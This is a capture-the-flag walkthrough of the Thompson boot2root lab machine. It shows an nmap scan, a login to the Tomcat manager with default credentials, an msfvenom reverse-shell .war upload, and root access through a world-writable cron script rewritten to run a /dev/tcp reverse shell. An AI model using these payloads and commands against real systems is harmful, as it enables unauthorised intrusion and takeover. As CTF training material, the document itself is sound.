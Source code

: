 ## 🧾 Overview
Thompson\
boot2root machine for FIT and bsides guatemala CTF

## 🔍 Recon
Let's start with basic scan:
```bash
nmap -A 10.10.183.147            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-05 17:07 +06
Nmap scan report for 10.10.183.147
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 🔍 Port Analysis
**● Port 8009 AJP13 (Apache JServ Protocol v1.3)**\
It acts as a connector between a web server (like Apache HTTPD) and an application server (typically Apache Tomcat). It allows the web server to forward requests to Tomcat efficiently using a binary protocol.

**● Port 8080 – HTTP (Apache Tomcat)**\
Hosts web applications, often Java-based.

## 🌐 Web Enumeration
I visited port 8080 and found the default page for Apache Tomcat.\
I then visited the manager page, which required authentication. But when I clicked on cancel, I got some interesting juicy info.\
I noticed a message referencing example credentials—specifically tomcat:s3cret, which is one of the known defaults. I tested these credentials, and they successfully granted access to the manager console, which is exactly what I needed to move forward with exploitation.

**● Why manager console?**\
The manager console is needed because it allows uploading .war files, which can be used to execute commands on the server and gain a foothold for further exploitation.

## 🛡️ Vulnerability Analysis
The Tomcat Manager Console was accessible using default credentials (tomcat:s3cret). This interface allows authenticated users to deploy .war files, Java-based web applications—directly to the server. By uploading a malicious .war file containing a reverse shell, we can trigger it via the browser and establish remote access.

This exploit works because Tomcat executes any deployed .war file as part of its web application stack. Once our payload is deployed, Tomcat treats it like a legitimate app, allowing us to interact with it and execute commands on the underlying system.

## 🚀 Exploitation
Looking at the manager console, I found a section called WAR file to deploy. This is our opportunity since we have permission to upload the file.

**● Generating the Payload**\
I used msfvenom to create a .war file containing a reverse shell payload:
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

**● Setting Up the Listener**\
Before uploading the payload, start a listener :
```bash
nc -lvnp <port>
```
Use the same port as the payload.

**● Uploading and Triggering**\
I uploaded the shell.war file in the Tomcat Manager's deployment section.\
After deploying, the application was accessible at:
```bash
http://<target-ip>:8080/shell/
```
Visiting this URL triggered the reverse shell, and I received a connection back on my listener.

**● Stabilizing the Shell**\
The initial reverse shell was a basic sh session, which lacked features like tab completion and command history. To improve usability, I upgraded it to a fully interactive TTY shell.
1. Spawn a TTY shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
2. Background the shell
```bash
ctrl+z
```
3. Fix terminal settings
```bash
stty raw -echo; fg
```
4. Export TERM variable
```bash
export TERM=xterm
```
This gave me a stable, interactive shell suitable for further enumeration and privilege escalation.

**● User Flag**\
Navigate to the /home/jack directory and you'll find the first flag 🚩.

## 🧑‍💻 Privilege Escalation
After gaining initial access as the tomcat user, I needed to escalate privileges to root. Time to enumerate.

**● Finding the Path**

Looking at cronjob:
```bash
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```
I discovered a script named id.sh located in /home/jack. It runs with root privileges on a regular basis, and the file is fully accessible and Jack has read, write, and execute permissions on it. This opens the door for privilege escalation by modifying the script to execute arbitrary commands as root.

1. Identify the target script:\
Found id.sh in /home/jack, confirmed it runs as root and is writable by Jack.
```bash
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
```
2. Analyze the script behavior:\
The script pipes the output of the id command into a file named test.txt, located in the same directory. Since the script runs as root, the file is created with root-level permissions.

3. Replace the script with a reverse shell payload:\
Edited id.sh to include a reverse shell command that connects back to your machine.
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" > id.sh
```
4. Set up a listener:\
Started another netcat listener to catch the incoming shell.

5. Wait for execution:\
Since the script runs every minute as root, waited for the next execution cycle.

6. Receive root shell:\
Once triggered, the reverse shell connected back, giving root-level access.
```bash
nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.17.120.190] from (UNKNOWN) [10.10.244.253] 34866
bash: cannot set terminal process group (12059): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# cat /root/root.txt
cat /root/root.txt
```
You'll get the root flag in /root/root.txt
